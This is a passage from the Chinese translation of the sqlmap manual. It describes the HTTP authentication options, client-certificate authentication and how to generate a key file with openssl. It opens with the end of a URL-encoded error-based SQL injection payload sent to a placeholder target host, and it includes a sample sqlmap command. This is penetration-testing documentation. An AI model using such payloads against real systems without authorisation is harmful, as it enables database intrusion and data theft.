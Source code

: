 ```
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3D%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2\
0%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20\
%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%\
20%20%20%20%20%20%20%20%20%20%20%205473%29%20THEN%201%20ELSE%200%20END%29%29%2C\
0x3a6c666d3a%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.CHARA\
CTER_SETS%20GROUP%20BY%20x%29a%
29 HTTP/1.1
Host: www.target.com
Accept-encoding: gzip,deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-agent: Firefox 1.0
Connection: close
[...]
```

### HTTP 协议认证

选项：`--auth-type` 和 `--auth-cred`

这些选项用于指定后端 Web 服务器实现的 HTTP 协议认证和所有向目标程序发起 HTTP 请求的有效凭据。

支持的三种 HTTP 协议认证机制是：

* `Basic`
* `Digest`
* `NTLM`

认证凭据的语法是 `username:password`。

一个符合语法的例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id\
=1" --auth-type Basic --auth-cred "testuser:testpass"
```

### HTTP 协议私钥认证

选项：`--auth-file`

当 Web 服务器需要正确的客户端证书和私钥进行身份验证时，应使用此选项。提供的值应为包含证书和私钥的 PEM 格式文件 `key_file`。

生成适用于 `--auth-file` 选项的 `key_file.txt` 文件示例：

```
$ openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout auth_file.key -out auth_file.pem &&\
cat auth_file.key auth_file.pem > auth_file.txt && cat auth_file.txt
Generating a 2048 bit RSA private key
.........+++
...........+++
writing new private key to 'auth_file.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
```